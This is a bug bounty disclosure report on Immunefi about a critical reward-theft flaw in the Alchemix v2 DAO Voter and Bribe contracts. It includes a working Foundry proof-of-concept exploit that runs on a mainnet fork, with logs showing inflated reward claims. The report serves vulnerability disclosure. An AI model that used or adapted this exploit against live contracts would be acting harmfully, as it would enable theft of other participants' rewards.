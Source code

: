 
# malicious user can back-run `Voter.distribute` to steal reards

Submitted on May 15th 2024 at 19:58:42 UTC by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31249

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.


## Vulnerability Details
During the `Voter.distribute` function, [Voter._distribute](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L359C14-L379) is called, and at the end  of `Voter._distribute`, `IBribe.resetVoting` is called at [https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L377]
[IBribe.resetVoting](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L332-L335) is defined as:
```solidity
345     /// @inheritdoc IBribe
346     function resetVoting() external {
347         require(msg.sender == voter);
348         totalVoting = 0;
349     }
```

__So it means that after calling `Voter.distribute`, `Bribe.totalVoting` will be set to 0.__

Then in `Bribe.earned`, `Bribe.totalVoting` is used in [Bribe.sol#L257-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277).
One thing to note is that:
```solidity
270         // Prevent divide by zero
271         if (_priorSupply == 0) {
272             _priorSupply = 1;
273         }
```
So it means that if **_priorSupply** will be set to **1** if it's 0.
And `reward` depends on `_priorSupply` as:
```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
```

To sum up:
1. During `Voter.distribute`, `Bribe.totalVoting` will be set to **0**
2. `Bribe.earned` depends of `Bribe.totalVoting` to calculate the amount of rewards. And if we can force `_priorSupply` to 1 while calculating the rewards, we will make more profilt. We can use `Voter.poke` to update the `checkpoint` after `Voter.distribute`.


## Impact Details
In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.


## References
Add any relevant links to documentation or code



## Proof of Concept
put the follow code in `src/test/Voting.t.sol` and run 
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API_KEY --fork-block-number 17133822 --mc VotingTest --mt testAliceEpochRewards -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceEpochRewardsNoPoke() (gas: 6888013)
Logs:
  earned                    : 33333333333333333333333
  earned                    : 33333333333333333333333
  bal.balanceOf(Alice)      : 33333333333333333333333
  bal.balanceOf(Bob)        : 0

[PASS] testAliceEpochRewardsPoke() (gas: 6969463)
Logs:
  earned                    : 100000000000000000000000
  earned                    : 100000000000000000000000
  bal.balanceOf(Alice)      : 100000000000000000000000
  bal.balanceOf(Bob)        : 0

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 86.68ms (116.98ms CPU time)
```
As we can from above, if Alice doesn't call `Voter.poke` after `Voter.distribute`, Alice will receive 33333333333333333333333 bal rewards.

And if Alice calls `Voter.poke` after `Voter.distribute`, Alice will receive 100000000000000000000000 bal rewards.

```solidity
    function testAliceEpochRewardsPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();
        hevm.prank(Alice);
        voter.poke(tokenId1);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }

    function testAliceEpochRewardsNoPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }
```
